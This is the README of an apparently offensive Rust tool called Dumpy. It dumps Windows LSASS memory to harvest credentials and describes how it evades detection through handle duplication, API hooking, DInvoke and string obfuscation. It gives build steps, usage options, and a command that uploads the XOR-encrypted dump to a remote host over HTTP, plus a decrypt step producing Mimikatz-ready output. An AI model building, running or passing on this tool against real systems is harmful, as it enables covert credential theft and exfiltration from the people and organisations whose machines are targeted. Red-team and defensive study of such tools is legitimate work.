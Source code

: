 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk.

Support added for both x86 and x64.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	cargo build
	dumpy.exe -h

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION>

	ARGS:
	    <ACTION>    dump or decrypt

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted input file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              URL where the dump should be uploaded [default:
	                                       http://remotehost/upload]
Dumpy has too main actions:

- dump: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option upload allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports multipart/form-data requests will work.

	dympy.exe dump -k secretKey -u http://remotehost/upload

- decrypt: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, it is required to perform a base64 decoding before this decryptiong.                                        
	dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey
